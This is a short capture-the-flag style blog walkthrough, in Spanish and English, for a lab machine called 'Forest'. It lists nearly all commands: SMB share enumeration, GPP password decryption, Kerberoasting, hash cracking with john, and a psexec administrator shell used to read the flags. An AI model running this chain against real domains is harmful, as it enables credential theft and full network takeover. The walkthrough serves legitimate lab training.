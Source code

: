 ```yaml
---
# multilingual page pair id, this must pair with translations of this page. (This name must be unique)
lng_pair: id_forest
title: "Forest"

# post specific
# if not specified, .name will be used from _data/owner/[language].yml
author: Bast1ant1c
# multiple category is not supported
category: Easy
# multiple tag entries are possible
tags: [AD, pentesting]
# thumbnail image for post
img: ":main_photo.jpg"
# disable comments on this page
#comments_disable: true

# publish date
date: 2022-12-27

# seo
# if not specified, date will be used.
#meta_modify_date: 2022-01-01 10:04:30 +0900
# check the meta_common_description in _data/owner/[language].yml
meta_description: ""

# optional
# please use the "image_viewer_on" below to enable image viewer for individual pages or posts (_posts/ or [language]/_posts folders).
# image viewer can be enabled or disabled for all posts using the "image_viewer_posts: true" setting in _data/conf/main.yml.
#image_viewer_on: true
# please use the "image_lazy_loader_on" below to enable image lazy loader for individual pages or posts (_posts/ or [language]/_posts folders).
# image lazy loader can be enabled or disabled for all posts using the "image_lazy_loader_posts: true" setting in _data/conf/main.yml.
#image_lazy_loader_on: true
# exclude from on site search
#on_site_search_exclude: true
# exclude from search engines
#search_engine_exclude: true
# to disable this page, simply set published: false or delete this file
#published: false
---
```

<!-- outline-start -->

Hola, esta es la máquina forest! Let's hack!

<!-- outline-end -->

## RECON
```python
ping -c 1 <IP>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP> -oG ports
extractports <ports>
nmap -sCV <PORTS> -oG services
```

## AD DOMAIN DETECTION
```bash
crackmapexec smb <IP>
sudo su
nvim /etc/hosts
<IP>	<DOMAIN>
```

## SMB ENUM
```bash
smbclient -L <IP> -N
crackmapexec smb <IP> --shares
smbmap -H <IP>
smbmap -H <IP> -r Replication/forest.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/
smbmap -H <IP> --download Replication/forest.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
mv <IP>-Replication_forest.htb_Policies_{31B2F340-016D-11D2-945F-00C04FB984F9}_MACHINE_Preferences_Groups_Groups.xml groups.xml
```

## DECRYPT GROUPS.XML PASSWORD
```bash
gpp-decrypt '<CPASSWORD>'
```

## GRANTED SMB ACCESS SVC_TGS USER
```bash
crackmapexec smb <IP> -u 'SVC_TGS' -p '<PASSWORD>'
crackmapexec smb <IP> -u 'SVC_TGS' -p '<PASSWORD>' --shares
smbmap -H <IP> -u 'SVC_TGS' -p '<PASSWORD>' -r Users/SVC_TGS/Desktop/user.txt
```

## FLAG USER.TXT
```bash
smbmap -H <IP> -u 'SVC_TGS' -p '<PASSWORD>' --download Users/SVC_TGS/Desktop/user.txt
mv <IP>-Users_SVC_TGS_Desktop_user.txt user.txt
cat user.txt
```

## AD ENUM RPCCLIENT
```bash
rpcclient -U "SVC_TGS%<PASSWORD>" <IP>
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'enumdomusers'
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'enumdomgroups'
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'querygroupmem 0x200'
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'queryuser 0x1f4'
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'querydispinfo'
echo SVC_TGS > users.txt
```

## AD TGT GETNPUSERS.PY
```bash
GetNPUsers.py forest.htb/ --no-pass -usersfile users.txt
```

## AD USER ENUM KERBRUTE
```bash
kerbrute userenum --dc <IP> -d forest.htb /usr/share/Seclists/Usernames/Names/names.txt
```

## ADJUST DATE & TIME WITH AD (OPTIONAL)
```bash
ntpdate <IP>
```

## AD TGS GETUSERSPN.PY
```bash
GetUserSPN.py forest.htb/SVC_TGS:<PASSWORD> -request
```

## BRUTEFORCE ADMINISTRATOR HASH
```bash
echo '<HASH>' > hash
john -w:/usr/share/wordlists/rockyou.txt hash
```

## GRANTED ACCESS ADMINISTRATOR USER
```bash
crackmapexec smb <IP> -u 'Administrator' -p '<PASSWORD>'
psexec.py 'forest.htb/Administrator:<PASSWORD>@<IP>' cmd.exe
whoami
```

## FLAG ROOT.TXT
```bash
type C:\Users\Administrator\Desktop\root.txt
```

